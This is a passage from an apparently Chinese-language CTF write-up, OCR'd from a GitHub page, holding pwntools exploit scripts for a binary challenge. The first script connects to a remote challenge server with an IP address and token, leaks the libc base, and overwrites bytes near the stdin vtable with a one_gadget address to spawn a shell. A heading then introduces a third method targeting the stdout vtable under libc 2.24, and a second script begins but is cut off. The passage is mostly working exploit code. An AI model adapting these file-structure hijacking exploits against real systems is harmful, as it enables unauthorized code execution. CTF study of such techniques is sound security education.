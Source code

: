 ```
#0x00007f436cc2e400 0x00007f436c9f67e9 
#                   0x00007f436c95a2a4 one_gadget --> 3 bytes


'''
stdin->vtable  0x00007fa1e55679b8  0x00007fa1e55666e0
'''
if __name__ == "__main__":
    elf = ELF(binary)
    libc = ELF("./libc.so.6")
    pipe_argv = [binary,""]
    pipe_env = {"LD_PRELOAD":"./libc.so.6"}
    #io = process(pipe_argv, env=pipe_env)
    io = remote("150.109.46.159",20002)
    io.readuntil("Input your token:")
    io.sendline("Ooh0jQajnHvoGq2lTlMt9tkT0EkellEa")
    io.readuntil("here is a gift ")
    libc_sleep = int(io.readuntil(",")[2:-1], 16)
    libc_base = libc_sleep - libc.symbols["sleep"]
    log.info("libc_base-->{}".format(hex(libc_base)))
    one_gadget = 0xf02a4 + libc_base
    log.info(hex(one_gadget))
    stdin_vtable = 0x3c49b8 + libc_base
    io.readline()
    data = []
    
    data.append([libc_base + 0x3c4bf8 + 0, ((one_gadget) >> 0) & 0xff])
    data.append([libc_base + 0x3c4bf8 + 1, ((one_gadget) >> 8) & 0xff])
    data.append([libc_base + 0x3c4bf8 + 2, ((one_gadget) >> 16) & 0xff])
    data.append([libc_base + 0x3c49b8 + 1, ((0x3c4be0 + libc_base) >> 8) & 0xff])
    pause()
    write4(data)
    io.interactive()
    '''enter'''
    '''enter'''
    '''exec 1>&0'''
```

方法三:

修改stdout->vtable

服务器上`libc`的版本是`2.24`，在2.24的libc源码中对`io_file`的`vtable`进行了`IO_vtable_check`,

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-
import os
import sys
# https://github.com/matrix1001/welpwn
if os.path.exists('./welpwn') != True:
    print("Verify that welpwn is in the current directory")
    exit()
sys.path.insert(0,os.getcwd()+'/welpwn')
from PwnContext.core import *
if __name__ == '__main__':
    #context.terminal = ['tmux', 'splitw', '-h']

    #-----function for quick script-----#
    s       = lambda data               :ctx.send(str(data))        #in case that data is a int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    st      = lambda delim,data         :ctx.sendthen(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data))
    r       = lambda numb=4096          :ctx.recv(numb)
```
